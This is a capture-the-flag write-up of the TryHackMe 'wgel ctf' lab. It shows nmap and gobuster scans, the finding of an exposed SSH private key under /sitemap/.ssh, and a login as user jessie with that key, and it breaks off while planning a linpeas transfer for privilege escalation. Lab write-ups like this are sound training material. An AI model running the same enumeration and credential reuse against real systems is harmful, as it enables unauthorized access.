 <div align = "center">
Sep 25, 2021, Saturday<br>
Notes by: Mayank Kumar Prajapati<br>
Machine Name: wgel ctf<br>
URL: https://tryhackme.com/room/wgelctf
</div>

`export IP="10.10.191.127"`

## Nmap Scan:
``` bash
└─# nmap -sC -sV -T4 $IP   
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-25 07:23 EDT
Stats: 0:00:30 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 07:24 (0:00:07 remaining)
Stats: 0:00:37 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 07:24 (0:00:14 remaining)
Nmap scan report for 10.10.191.127
Host is up (0.37s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.89 seconds
```
## Task 1
1. User flag.
```
***
```
**Viewing Source code of Apache default page:**
![Apache Source code](./images/apachedefaultpage.png)

**Directory  Bursting**<br>
``` bash
└─# gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.191.127/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/09/25 07:40:35 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 11374]
/server-status        (Status: 403) [Size: 278]  
/sitemap              (Status: 301) [Size: 316] [--> http://10.10.191.127/sitemap/]

``` 
``` bash
└─# gobuster dir -u http://$IP/sitemap/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.191.127/sitemap/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/09/25 07:42:40 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.ssh                 (Status: 301) [Size: 321] [--> http://10.10.191.127/sitemap/.ssh/]

```

Tried each and every directory listed above, nothing seems to be working, most of them are not accessible.
Finally found private key in `.ssh` directory. We already found from the comment inside source code of `apache page`.
``` bash
└─# chmod 600 jessie_id_rsa
└─# ssh -i jessie_id_rsa jessie@$IP
The authenticity of host '10.10.191.127 (10.10.191.127)' can't be established.
ECDSA key fingerprint is SHA256:9XK3sKxz9xdPKOayx6kqd2PbTDDfGxj9K9aed2YtF0A.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.191.127' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ find | grep flag
./Documents/user_flag.txt

```
Now you can find root flag easily.


2. Root flag.
```
***
```
Lets transfer linpeas for finding path to privilege escalation. It can be done via secure copy (SCP) or also using a python simple HTTP server. Lets try to use `scp` this time.